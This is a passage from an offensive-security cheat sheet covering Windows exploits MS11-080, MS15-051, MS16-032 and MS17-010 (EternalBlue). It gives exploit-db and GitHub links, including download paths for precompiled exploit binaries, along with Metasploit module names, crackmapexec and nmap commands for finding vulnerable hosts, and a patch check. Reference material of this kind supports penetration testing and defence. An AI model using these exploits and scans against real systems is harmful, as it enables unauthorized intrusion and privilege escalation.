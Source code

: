 ### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

```powershell
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```


### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script or crackmapexec: `crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```
